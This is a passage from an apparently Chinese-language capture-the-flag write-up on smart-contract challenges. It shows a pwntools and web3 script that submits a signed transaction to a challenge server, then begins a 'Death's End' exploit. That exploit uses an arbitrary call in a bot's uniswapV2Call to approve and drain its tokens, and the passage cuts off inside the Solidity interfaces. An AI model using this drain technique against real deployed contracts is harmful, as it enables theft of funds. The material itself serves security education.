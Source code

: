 ```python
from pwn import *
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)

tx = {
    'from': acc.address,
    'nonce': 0,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_2.txt').read(),
    'chainId': 2023,
    'value': 10**17,
}
signed = w3.eth.account.sign_transaction(tx, pk)

context.log_level = 'debug'

r = remote('202.38.93.111', 10222)
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'The challenge you want to play (1 or 2 or 3): ', b'2')
r.sendlineafter(b'Choice: ', b'1')
r.sendlineafter(b'Address: ', acc.address.encode())
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Raw transaction: ', signed.rawTransaction.hex().encode())
r.interactive()
```

## Death's End

本题和上一题相比，`arbitrage` 函数完全加上了对余额的检查，而 `uniswapV2Call` 函数可以发出任意调用了。

为了清空余额，除了直接转账，也可以先 approve，然后再由他人转走。这样就能绕过检查。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Factory {
    event PairCreated(address indexed token0, address indexed token1, address pair, uint);

    function feeTo() external view returns (address);
    function feeToSetter() external view returns (address);

    function getPair(address tokenA, address tokenB) external view returns (address pair);
    function allPairs(uint) external view returns (address pair);
    function allPairsLength() external view returns (uint);

    function createPair(address tokenA, address tokenB) external returns (address pair);

    function setFeeTo(address) external;
    function setFeeToSetter(address) external;
}

interface IUniswapV2Pair {
    event Approval(address indexed owner, address indexed spender, uint value);
    event Transfer(address indexed from, address indexed to, uint value);

    function name() external pure returns (string memory);
```